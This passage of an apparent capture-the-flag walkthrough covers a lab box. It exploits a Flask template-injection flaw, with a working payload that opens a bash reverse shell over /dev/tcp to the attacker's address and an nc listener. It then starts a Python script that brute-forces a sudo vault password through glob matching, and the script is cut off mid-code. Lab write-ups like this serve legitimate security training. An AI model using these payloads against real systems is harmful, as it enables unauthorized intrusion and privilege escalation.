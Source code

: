 Port **5000** runs a vulnerable Flask app.

---

## 7\. Exploit Flask SSTI

### Step 1: Confirm SSTI

```bash
printf '{{7*7}}' > poc
python3 -m http.server 80
curl -s -X POST "http://$HOST:5000/" -d "website_url=http://<YOUR_IP>/poc" | grep -o 49 || echo "no 49"
```

### Step 2: Reverse Shell Payload

```bash
printf '{{ self.__init__.__globals__.__builtins__.__import__("os").popen("bash -c \"bash -i >& /dev/tcp/<YOUR_IP>/5555 0>&1\"").read() }}' > template
curl -X POST "http://$HOST:5000/" -d "website_url=http://<YOUR_IP>/template"
```

Start listener:

```bash
nc -lvnp 5555
```

This gives shell as **hansolo**.

---

## 8\. Capture User Flag

```bash
cat hansolo_userflag.txt
```

---

## 9\. Privilege Escalation: Vault Script Bypass & Password Brute-Force

Check sudo:

```bash
sudo -l
```

The `vault` script is vulnerable to glob matching. Use brute-force Python:

```python
import subprocess
import string

charset = string.ascii_letters + string.digits
password = ""

while True:
    found = False
    for char in charset:
        attempt = password + char + "*"
        print(f"\r[+] Password: {password+char}", end="")
        proc = subprocess.Popen(
            ["sudo", "/usr/bin/bash", "/usr/bin/vault"],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
```